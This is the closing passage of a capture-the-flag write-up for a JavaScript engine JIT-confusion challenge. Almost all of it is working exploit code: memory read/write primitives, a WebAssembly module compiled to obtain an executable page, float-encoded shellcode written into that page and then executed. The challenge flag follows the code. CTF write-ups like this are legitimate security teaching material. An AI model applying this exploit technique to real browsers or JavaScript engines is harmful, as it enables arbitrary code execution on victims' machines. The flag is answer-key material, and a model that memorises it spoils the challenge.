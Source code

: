 ```js

function write(addr, value) {
    c[1] = i2f(addr)
    d[0] = value
}

var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code)
var wasm_instance = new WebAssembly.Instance(wasm_mod)
var f = wasm_instance.exports.main
var addr_f = addrof(f)
print("[*] f @ " + hex(addr_f))

var addr_shellcode = read(addr_f + 0x38)
print("[*] Shellcode @ " + hex(addr_shellcode))

let shellcode = [
    2.825563119134789e-71, 3.2060568105999132e-80,
    -2.5309726874116607e+35, 7.034840446283643e-309
]

for(var i = 0; i < shellcode.length; i++) {
    write(addr_shellcode + i*8, shellcode[i])
}

print("[*] Shellcode write done")

f()
```

## Flag
`inctf{JIT_t0o_f4st_1t_g0t_c0nfus3d}`

I hope you guys enjoyed the challenge, I learnt a lot while making it! Feel free to reach out to me on [twitter](https://twitter.com/_d4rkkn1gh7) for any questions/queries regarding this writeup.
